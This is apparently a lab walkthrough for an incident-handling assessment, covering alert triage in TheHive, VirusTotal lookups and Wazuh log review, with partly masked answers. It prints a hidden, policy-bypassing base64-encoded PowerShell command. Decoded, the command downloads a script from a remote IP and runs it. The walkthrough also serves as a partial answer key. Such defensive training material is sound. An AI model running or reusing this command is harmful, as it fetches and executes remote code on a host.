





This walkthrough explains the investigation process used to solve the Incident Handling Skills Assessment.

first start the VPN : using openvpn 

then start the target IP and access the HIVE : http://10.129.107.81:9000

login with the Username and Password HTB give. 
First Question : **Open the alert "[InsightNexus] Admin Login via ManageEngine Web Console." Find the foreign IP address starting with "203" in the comments. Check VirusTotal for the information related to this IP address, and add the details as a comment in this alert. In VirusTotal, what is the name of the file starting with "Mango" in the Files Referring section?**

I open **[InsightNexus] Admin Login via ManageEngine** 

reviewed the alert details to identify a foreign IP address starting with **203** in the comments section

I found it !! the IP start with with 203.x.x.x
Now go to VirusTotal.com and **find name of the file starting with "Mango"** 

Identified IOC: : **Mango.x.x.x.x

Question 2 : **In VirusTotal, go to the details of the IP address starting with "198." What is the name of the city shown in the Whois Lookup?** 

so this is similar to the first one we already got the IP in the comment section that start with 198.x.x.x

Analysis Result: **Los .x.x.x**  

I skip Questions 3,4 because we can get the answer by looking at the alert and research now let move to Question 5 :**Download the "logs-wazuh.zip" file from resources, and identify the suspicious PowerShell command in the logs. Type the suspicious IP address after decoding the command.**

after Download and take some time on it i found this 
**-NoProfile -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5OC41MS4xMDAuMjQvZGVmZW5kZXIvZGVwbG95LWRlZmluaXRpb25zLnBzMScpOyBTdGFydC1Qcm9jZXNzIHBvd2Vyc2hlbGwgLUFyZ3VtZW50TGlzdCAnLU5vUHJvZmlsZSAtV2luZG93U3R5bGUgSGlkZGVuIC1GaWxlIEM6XFdpbmRvd3NcVGVtcFxkZXBsb3ktZGVmaW5pdGlvbnMucHMxJw**  

now let decode it 

the answer is : **198.x.x.x.x** 

Question 5 : **In the same file (i.e., logs-wazuh.zip), identify the user who executed the suspicious PowerShell command. The format is domain\user.**

after i take some time i found this :

Finding : **"User": "CORP\\.x.x.x"** 
